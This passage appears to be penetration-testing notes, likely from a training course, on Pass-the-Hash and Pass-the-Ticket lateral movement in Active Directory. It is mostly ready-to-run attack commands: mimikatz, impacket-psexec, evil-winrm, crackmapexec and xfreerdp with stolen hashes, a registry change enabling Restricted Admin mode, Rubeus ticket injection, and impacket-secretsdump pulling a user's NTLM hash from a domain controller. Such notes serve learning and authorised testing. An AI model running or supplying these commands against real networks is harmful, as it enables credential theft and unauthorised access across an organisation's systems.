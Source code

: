 **Performing PtH Attacks:**

1. Windows - Using mimikatz:\
   `privilege::debug "sekurlsa::pth /user:username /rc4:hash /domain:domain.name /run:cmd.exe" exit`
2. Linux - Using PsExec:\
   `impacket-psexec user@targetIP -hashes :hash`
3. Linux - Using evil-winrm:\
   `evil-winrm -i <ip> -u Administrator -H "<passwordhash>"`
4. Linux - Using crackmapexec:\
   `crackmapexec smb targetIP -u Administrator -d domain.name -H hash`
5. Pass the Hash with RDP:
   * Run `xfreerdp /v:targetIP /u:user /pth:hashvalue`
   * If Restricted Admin Mode is disabled, you will read a message telling you "account restrictions are preventing this user from signin in"
   * You can enable restricted admin mode (which is disabled by default) using the following:\
     `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
   * After that, you can try to login again using the first command

***

### **Pass the Ticket (PtT)**

> * Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack.
> * In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash
> * To perform PtT you can either use a TGS or a TGT
> * After performing PtT, the ticket will be stored in the current logon session

**Performing PtT Attacks:**

1. Check the [Kerberoasting Section](./#kerberoasting) to check how to request tickets
2. PtT using Rubeus: `Rubeus.exe asktgt /domain:domain.name /user:username /rc4:hash /ptt`
3. PtT using Rubeus with .kirbi file: `Rubeus.exe ptt /ticket:file.kirbi`
4. PtT using Rubeus - alternative:
   * Convert a .kirbi file to base64:`[Convert]::ToBase64String([IO.File]::ReadAllBytes("file.kirbi"))`
   * Perform PtT using the base64 value you just got: `Rubeus.exe ptt /ticket:base64output`
5. PtT using Mimikatz with .kirbi file: `privilege::debug kerberos::ptt "path-to-file.kirbi"`
6. PtT using Mimikatz - PowerShell Remoting with Pass the Ticket:
   * You can leverage Mimikatz to import a ticket and open a PowerShell console to connect to the target machine
   * First, perform PtT using mimikatz, then
   * Open a PowerShell console: `powershell`
   * Connect to the target machine: `Enter-PSSession -ComputerName DC01`
7. PtT via DCsync command:&#x20;
   * We first need to have a golden ticket first. (See [Attacking Domain Trusts - Child -> Parent Trusts - from Linux in Notion](https://www.notion.so/Attacking-Domain-Trusts-Child-Parent-Trusts-from-Linux-13a8c836dfa980ec8cb0c30e299deb42))
   * Command below can get NTLM hash from domain controller with specified User.
   * Syntax: child\_domain/user@domaincontroller -just-dc-user parentdomain/targeteduser
   * {% code overflow="wrap" %}
     ```
     impacket-secretsdump logistics.inlanefreight.local/hacker@academy-ea-dc01.inlanefreight.local -just-dc-user INLANEFREIGHT/bross -k -no-pass -target-ip 172.16.5.5
     ```
     {% endcode %}
